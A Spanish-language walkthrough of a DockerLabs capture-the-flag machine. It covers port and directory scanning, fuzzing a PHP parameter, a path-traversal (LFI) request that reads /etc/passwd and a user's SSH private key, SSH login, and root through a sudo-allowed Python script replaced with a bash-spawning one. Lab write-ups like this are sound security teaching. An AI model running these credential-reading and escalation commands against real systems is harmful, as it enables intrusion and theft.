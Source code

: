## 0. HERRAMIENTAS

- Gobuster
- Wfuzz
- LFI
- Binario perl
- Importación libreria Python (OS)

## 1. ENUMERACIÓN

En DockerLabs no hace falta buscar la ip, ya que viene dada por la interfaz docker0, siempre es 172.17.0.2

Si quisiéramos buscar la máquina lo haríamos de la siguiente manera

![image](https://github.com/user-attachments/assets/56274d5d-88b9-4cc9-b38a-e9be339936d8)


Hago un escaneo de puertos

```jsx
sudo nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2
```

![image](https://github.com/user-attachments/assets/928ae7cf-0a59-410c-9541-f0d8e32d2dc1)


Vemos el puerto 80 abierto, pero la pagina de inicio no lleva a ningún lado ni a ningún login

![image](https://github.com/user-attachments/assets/03a3af0b-94f0-4197-a347-7f008656b146)


El código fuente tampoco muestra nada. 

![image](https://github.com/user-attachments/assets/28b2f82a-e281-40cf-a138-4e8b1d77c3bf)


- Con gobuster hago un escaneo de directorios

```jsx
sudo gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u '[http://172.17.0.2](http://172.17.0.2/)' -x 'html,txt,php,py'
```

![image](https://github.com/user-attachments/assets/f38bcd2b-57e1-45a4-82b6-a7d1ade7a72f)


Descubrimos el directorio assets, accedemos a la url y vemos que solo contiene un archivo de imagen que no nos lleva a ninguna parte

![image](https://github.com/user-attachments/assets/3d2505b3-c2cf-4f8f-a547-cdbba5a2df11)


- Probamos haciendo wfuzz a ver si podemos hacer ejecución de comandos a través de algún parámetro.

```jsx
sudo wfuzz -c --hl=62 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt http://172.17.0.2/index.php?FUZZ=whoami             
```

![image](https://github.com/user-attachments/assets/27143ba3-806e-40f7-b388-f262a30799b8)


No devuelve nada, probaremos a hacer a ver si se puede hacer un LFI:

```jsx
sudo wfuzz -c --hl=62 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt http://172.17.0.2/index.php?FUZZ=../../../../../../../../etc/passwd
```

![image](https://github.com/user-attachments/assets/c1772729-1d6c-4f1b-911f-8e7169f7b31c)


Vemos que con el parametro secret es susceptible de LFI

comprobamos con curl 

```jsx
curl http://172.17.0.2/index.php?secret=../../../../../../../etc/passwd
```

![image](https://github.com/user-attachments/assets/89551e72-ba6e-464c-943e-0e8d354c8c3d)


Tenemos el los usuarios 

- vaxei
- luisillo

## 2. COMPROMISO DEL ENTORNO

Intentamos buscar la clave RSA de esos 2 usuarios a través del LFI

```jsx
curl http://172.17.0.2/index.php?secret=../../../../../../../home/vaxei/.ssh/id_rsa
```

![image](https://github.com/user-attachments/assets/62e58a10-de44-4079-8b2c-9c0b1b1d3853)


Obtenemos el rsa de ssh de vaxei, de luisillo no encontramos nada

creamos un archivo con la rsa obtenida y probamos la conexión 

aplicamos permisos 600: chmod 600 rsa_key

![image](https://github.com/user-attachments/assets/f31e0afb-ecb0-4363-a308-85a7037124f1)


Probamos el acceso por ssh y accedemos correctamente

![image](https://github.com/user-attachments/assets/b8f432c8-aa92-4cdf-88fe-41c329eec7be)


Hacemos un sudo -l para comprobar que se puede ejecutar perl con el usuario luisillo

![image](https://github.com/user-attachments/assets/29031b12-33cc-4e6a-a4df-1d82487fc547)


Buscamos en GTFOBINS y encontramos

![image](https://github.com/user-attachments/assets/123da296-8ed7-4bcb-909d-f7ae4d7932d4)


## 3. ESCALADA DE PRIVILEGIOS

Vemos que se puede ejecutar con el usuario luisillo el script /opt/paw.py sin contraseña

![image](https://github.com/user-attachments/assets/9c468b31-4fab-49fa-b2b7-49d02e9a37c9)


Vemos el script

![image](https://github.com/user-attachments/assets/8c265e9a-0e1e-4db9-91a9-648852ec9253)

Una forma rápida de ganar root es renombrar el archivo y generar un nuevo [paw.py](http://paw.py) con el siguiente codigo

```jsx
import os
os.system("/bin/bash")
```

![image](https://github.com/user-attachments/assets/edaad069-69da-48b0-8ec0-df8a432619d5)


Ya obtenemos root

![image](https://github.com/user-attachments/assets/6d8bc57d-f83b-473c-a178-b814cfd85625)
